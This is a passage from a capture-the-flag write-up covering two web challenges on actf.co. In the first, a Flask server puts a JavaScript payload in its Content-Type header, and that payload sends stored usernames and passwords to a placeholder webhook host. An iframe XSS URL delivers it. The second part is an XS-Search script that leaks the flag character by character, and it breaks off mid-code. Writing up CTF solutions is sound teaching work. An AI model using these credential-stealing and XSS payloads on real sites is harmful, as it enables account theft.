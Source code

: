 ```typescript

    if (username === null) return end()

    const picture = pictures.get(username)
    if (picture === undefined) return end()

    const { data, type } = picture
    res.end(`data:${type};base64,${data}`)
}
```
We could modify the Content-Type.
But can javascript execute anything with `data:` in front of it? The answer is yes, actually, it can execute anything `anything:` before colon, because javascript treat those as labels. <a href="https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Statements/label">labeled statement</a>
So, simply host a Flask server
```python
from flask import Flask, make_response

app = Flask(__name__, static_folder='static')

@app.route('/', methods=['GET', 'POST'])
def print_headers():
    response = make_response("hehe")
    response.headers['Content-Type'] = 'document.location=`WEBHOOK/?c=${localStorage.getItem("username")}_${localStorage.getItem("password")}`//'
    return response

if __name__ == "__main__":
    app.run(port=5000, host="0.0.0.0")

```
### Execute
We could simply add
```html
<script src="/picture?username=testtesttest"></script>
```
to the login page right? No, because our script tag was added after the client.js load. How to deal with this? Iframe. We can have an iframe that run our javascript.
That's how we got this URL.
```
https://tickler.web.actf.co/login?error=%3Ciframe%20srcdoc=%27%3Cscript%20src=%22/picture?username=testtesttest%22%3E%3C/script%3E%27%3E
```
The rest leaves to you then.
## Wonderful Wicked Wrathful Wiretapping Wholesale World Wide Watermark as a Service
This challenege was not pretty hard, because we could use img or script tag to check whether a site is 404 or 200. To be honest, this won't work for latest version of Chrome, because of Chrome's ORB. But luckily, the browser of admin bot was outdated. And another factor was that they configured the challenge's sites with SameSite policy, that's why the unintended trick worked.
The exploit script
```javascript
let flag = "actf{";

let index = 0;
function search() {
    let charset = "0123456789abcdefghijklmnopqrstuvwxyz_}";
    let c = charset[index];
    let s = document.createElement("script");
    s.src = "https://wwwwwwwwaas.web.actf.co/search?q=" + encodeURIComponent(flag + c);
    s.onload = () => {
        flag += c;
```